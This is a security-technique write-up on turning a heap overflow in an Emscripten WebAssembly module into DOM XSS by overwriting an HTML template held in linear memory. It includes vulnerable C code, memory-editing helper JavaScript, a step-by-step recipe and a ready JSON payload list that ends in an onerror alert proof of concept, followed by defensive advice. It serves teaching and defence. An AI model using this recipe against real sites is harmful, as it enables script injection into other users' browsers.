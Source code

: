 # WebAssembly linear memory corruption to DOM XSS (template overwrite)

This technique shows how a memory-corruption bug inside a WebAssembly (WASM) module compiled with Emscripten can be weaponized into a reliable DOM XSS even when input is sanitized. The pivot is to corrupt writable constants in WASM linear memory (e.g., HTML format templates) instead of attacking the sanitized source string.

Key idea: In the WebAssembly model, code lives in non-writable executable pages, but the module’s data (heap/stack/globals/"constants") live in a single flat linear memory (pages of 64KB) that is writable by the module. If buggy C/C++ code writes out-of-bounds, you can overwrite adjacent objects and even constant strings embedded in linear memory. When such a constant is later used to build HTML for insertion via a DOM sink, you can turn sanitized input into executable JavaScript.

Threat model and preconditions
- Web app uses Emscripten glue (Module.cwrap) to call into a WASM module.
- Application state lives in WASM linear memory (e.g., C structs with pointers/lengths to user buffers).
- Input sanitizer encodes metacharacters before storage, but later rendering builds HTML using a format string stored in WASM linear memory.
- There is a linear-memory corruption primitive (e.g., heap overflow, UAF, or unchecked memcpy).

Minimal vulnerable data model (example)
```c
typedef struct msg {
    char *msg_data;       // pointer to message bytes
    size_t msg_data_len;  // length after sanitization
    int msg_time;         // timestamp
    int msg_status;       // flags
} msg;

typedef struct stuff {
    msg *mess;            // dynamic array of msg
    size_t size;          // used
    size_t capacity;      // allocated
} stuff; // global chat state in linear memory
```

Vulnerable logic pattern
- addMsg(): allocates a new buffer sized to the sanitized input and appends a msg to s.mess, doubling capacity with realloc when needed.
- editMsg(): re-sanitizes and memcpy’s the new bytes into the existing buffer without ensuring the new length ≤ old allocation → intra‑linear‑memory heap overflow.
- populateMsgHTML(): formats sanitized text with a baked stub like "%.\*s

" residing in linear memory. The returned HTML lands in a DOM sink (e.g., innerHTML).

Allocator grooming with realloc()
```c
int add_msg_to_stuff(stuff *s, msg new_msg) {
    if (s->size >= s->capacity) {
        s->capacity *= 2;
        s->mess = (msg *)realloc(s->mess, s->capacity * sizeof(msg));
        if (s->mess == NULL) exit(1);
    }
    s->mess[s->size++] = new_msg;
    return s->size - 1;
}
```
- Send enough messages to exceed the initial capacity. After growth, realloc() often places s->mess immediately after the last user buffer in linear memory.
- Overflow the last message via editMsg() to clobber fields inside s->mess (e.g., overwrite msg_data pointers) → arbitrary pointer rewrite within linear memory for data later rendered.

Exploit pivot: overwrite the HTML template (sink) instead of the sanitized source
- Sanitization protects input, not sinks. Find the format stub used by populateMsgHTML(), e.g.:
  - "%.\*s

" → change to "<img src=1      onerror=%.*s>"
- Locate the stub deterministically by scanning linear memory; it is a plain byte string within Module.HEAPU8.
- After you overwrite the stub, sanitized message content becomes the JavaScript handler for onerror, so adding a new message with text like alert(1337) yields <img src=1 onerror=alert(1337)> and executes immediately in the DOM.

Chrome DevTools workflow (Emscripten glue)
- Break on the first Module.cwrap call in the JS glue and step into the wasm call site to capture pointer arguments (numeric offsets into linear memory).
- Use typed views like Module.HEAPU8 to read/write WASM memory from the console.
- Helper snippets:
```javascript
function writeBytes(ptr, byteArray){
  if(!Array.isArray(byteArray)) throw new Error("byteArray must be an array of numbers");
  for(let i=0;i<byteArray.length;i++){
    const byte = byteArray[i];
    if(typeof byte!=="number"||byte<0||byte>255) throw new Error(`Invalid byte at index ${i}: ${byte}`);
    HEAPU8[ptr+i]=byte;
  }
}
function readBytes(ptr,len){ return Array.from(HEAPU8.subarray(ptr,ptr+len)); }
function readBytesAsChars(ptr,len){
  const bytes=HEAPU8.subarray(ptr,ptr+len);
  return Array.from(bytes).map(b=>(b>=32&&b<=126)?String.fromCharCode(b):'.').join('');
}
function searchWasmMemory(str){
  const mem=Module.HEAPU8, pat=new TextEncoder().encode(str);
  for(let i=0;i<mem.length-pat.length;i++){
    let ok=true; for(let j=0;j<pat.length;j++){ if(mem[i+j]!==pat[j]){ ok=false; break; } }
    if(ok) console.log(`Found "${str}" at memory address:`, i);
  }
  console.log(`"${str}" not found in memory`);
  return -1;
}
const a = bytes => bytes.reduce((acc, b, i) => acc + (b << (8*i)), 0); // little-endian bytes -> int
```

End-to-end exploitation recipe
1) Groom: add N small messages to trigger realloc(). Ensure s->mess is adjacent to a user buffer.
2) Overflow: call editMsg() on the last message with a longer payload to overwrite an entry in s->mess, setting msg_data of message 0 to point at (stub_addr + 1). The +1 skips the leading '<' to keep tag alignment intact during the next edit.
3) Template rewrite: edit message 0 so its bytes overwrite the template with: "img src=1      onerror=%.*s ".
4) Trigger XSS: add a new message whose sanitized content is JavaScript, e.g., alert(1337). Rendering emits <img src=1 onerror=alert(1337)> and executes.

Example action list to serialize and place in ?s= (Base64-encode with btoa before use)
```json
[
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"edit","msgId":10,"content":"aaaaaaaaaaaaaaaa.\u0000\u0001\u0000\u0050","time":1756885686080},
  {"action":"edit","msgId":0,"content":"img src=1      onerror=%.*s ","time":1756885686080},
  {"action":"add","content":"alert(1337)","time":1756840476392}
]
```

Why this bypass works
- WASM prevents code execution from linear memory, but constant data inside linear memory is writable if program logic is buggy.
- The sanitizer only protects the source string; by corrupting the sink (the HTML template), sanitized input becomes the JS handler value and executes when inserted into the DOM.
- realloc()-driven adjacency plus unchecked memcpy in edit flows enables pointer corruption to redirect writes to attacker-chosen addresses within linear memory.

Generalization and other attack surface
- Any in-memory HTML template, JSON skeleton, or URL pattern embedded in linear memory can be targeted to change how sanitized data is interpreted downstream.
- Other common WASM pitfalls: out-of-bounds writes/reads in linear memory, UAF on heap objects, function-table misuse with unchecked indirect call indices, and JS↔WASM glue mismatches.

Defensive guidance
- In edit paths, verify new length ≤ capacity; resize buffers before copy (realloc to new_len) or use size-bounded APIs (snprintf/strlcpy) and track capacity.
- Keep immutable templates out of writable linear memory or integrity-check them before use.
- Treat JS↔WASM boundaries as untrusted: validate pointer ranges/lengths, fuzz exported interfaces, and cap memory growth.
- Sanitize at the sink: avoid building HTML in WASM; prefer safe DOM APIs over innerHTML-style templating.
- Avoid trusting URL-embedded state for privileged flows.

## References
- [Pwning WebAssembly: Bypassing XSS Filters in the WASM Sandbox](https://zoozoo-sec.github.io/blogs/PwningWasm-BreakingXssFilters/)
- [V8: Wasm Compilation Pipeline](https://v8.dev/docs/wasm-compilation-pipeline)
- [V8: Liftoff (baseline compiler)](https://v8.dev/blog/liftoff)
- [Debugging WebAssembly in Chrome DevTools (YouTube)](https://www.youtube.com/watch?v=BTLLPnW4t5s&t)
- [SSD: Intro to Chrome exploitation (WASM edition)](https://ssd-disclosure.com/an-introduction-to-chrome-exploitation-webassembly-edition/)

